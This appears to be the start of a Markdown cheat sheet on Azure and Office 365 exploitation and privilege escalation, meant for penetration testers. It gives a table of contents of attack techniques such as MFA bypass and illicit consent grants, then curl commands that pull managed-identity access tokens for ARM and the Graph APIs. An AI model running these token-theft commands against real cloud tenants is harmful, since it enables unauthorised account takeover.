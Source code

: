 # Exploitation & Privilege escalation
* [General](#General)
  * [Requesting access tokens](#Requesting-access-tokens)
* [Exploitation Enumeration](#Exploitation-Enumeration)
  * [When on a new machine](#When-on-a-new-machine)
  * [After getting a new user](#After-getting-a-new-user)
* [Azure AD](#Azure-AD-Exploitation)
  * [Bypass MFA](#Bypass-MFA)
    * [Conditional Access](#Conditional-Access) 
    * [Break glass accounts](#Break-glass-accounts)
  * [Managed Identity](#Managed-Identity)
  * [Abusing dynamic groups](#Abusing-dynamic-groups)
  * [Add credentials to enterprise applications](#Add-credentials-to-enterprise-applications)
  * [Illicit Consent Grant](#Illicit-Consent-Grant)
  * [Privileged Roles & Privileges](#Privileged-Roles-&-Privileges)
    * [Reset password](#Reset-password) 
* [Azure Resources Exploitation](#Azure-Resources-Exploitation)
  * [Storage account](#Storage-account)
  * [Key Vault](#Key-Vault)
  * [Automation account](#Automation-account)
  * [Virtual Machines](#Virtual-Machines)
  * [Deployments](#Deployments)
  * [Arm Templates History](#Arm-Templates-History)
  * [Function apps continuous deployment](#Function-apps-continuous-deployment)
  * [Azure Container Registry dump](#Azure-Container-Registry-dump)
  * [Azure ARC](#Azure-ARC)
  * [Kubernetes](#Kubernetes)
* [Office 365](#Office-365)
  * [Updateable groups](#Updateable-groups)

## General
### Requesting access tokens
#### Curl
- ARM
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

- Azure AD Graph
```
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

- Microsoft Graph
```
curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
